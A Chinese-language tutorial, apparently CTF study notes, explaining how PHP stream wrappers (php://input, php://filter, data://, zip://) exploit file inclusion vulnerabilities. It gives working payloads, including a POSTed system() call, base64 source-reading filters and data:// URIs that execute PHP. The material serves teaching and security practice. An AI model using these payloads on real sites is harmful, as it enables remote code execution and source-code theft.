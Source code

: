 利用伪协议上传或读取文件是文件包含漏洞里比较基础和常用的方式  
PHP 提供了一些输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出等

#### 1. php://input

`php://input` 是个可以访问请求的原始数据的只读流，将 post 请求的数据当作 php 代码执行  
需要`allow_url_include=On`  
**遇到 file_get_contents()要想到用 php://input 绕过**

假设代码审计中遇到`file_get_contents()`函数，由于该函数的对象是数据流，需要读取文件，我们将`file_get_contents()`的对象赋值为`“php://input”`，从而将对象转为读取的数据，此时可以用 post 将`file_get_contents()`的对象赋值成需要的值，或执行需要的的 php 代码

举个 🌰，下面是一道简单的题目：

```
1. 构造 ?file=php://input
2. post data中输入：<?php system('dir');?>    //代码表示显示所有文件目录
3. 根据显示的文件目录直接进行访问（某txt或php文件），得到flag
```

#### 2. php://filter

`php://filter/`是一种访问本地文件的协议  
当它与包含函数（如`include()`）结合时，`php://filter`流会被当作 php 文件执行。所以我们一般对其进行编码，让其不执行，从而实现任意文件读取。

```
构造方法：
?file=php://filter/read=convert.base64-encode/resource=index.php
```

1. `/read=convert.base64-encode/`表示对读取数据进行 base64 编码
2. `resource=index.php`表示目标文件为 index.php

执行后可得到 index.php 的 base64 加密的源码

#### 3. data://

类似`php://input`，可以让用户来控制输入流，用户输入的`data://`流会被当作 php 文件执行，从而执行我们想要执行的代码  
要求`allow_url_fopen=On`，`allow_url_include=On`

```
构造方法：
1. ?file=data://text/plain,<?php phpinfo()?>    //执行phpinfo()
2. ?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=    //将命令进行base64加密，编码为“<?php phpinfo()?> ”的base64编码
3. ?file=data:text/plain,<?php phpinfo()?>    //去掉双斜杠
4. ?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```

#### 4. zip://

`zip://` 可以访问压缩包里面的文件。  
`zip://`中只能传入**绝对路径**；要用`#`分隔压缩包和压缩包里的内容，且`#`要用 url 编码`%23`代替

```
构造方法：
?file=zip://D:\file.zip%23flag.txt
```

